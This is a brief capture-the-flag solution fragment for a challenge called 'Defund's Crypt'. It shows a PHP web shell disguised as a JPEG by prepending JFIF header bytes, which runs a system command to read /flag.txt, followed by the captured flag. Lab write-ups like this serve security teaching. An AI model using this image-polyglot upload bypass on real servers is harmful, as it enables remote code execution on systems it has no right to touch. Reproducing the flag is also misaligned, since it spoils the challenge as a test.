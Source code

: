 # Defund's Crypt

```php
ÿØÿà JFIF  
<?php
system("cat /flag.txt");
?>
```
#### actf{th3_ch4ll3ng3_h4s_f4ll3n_but_th3_crypt_rem4ins} 
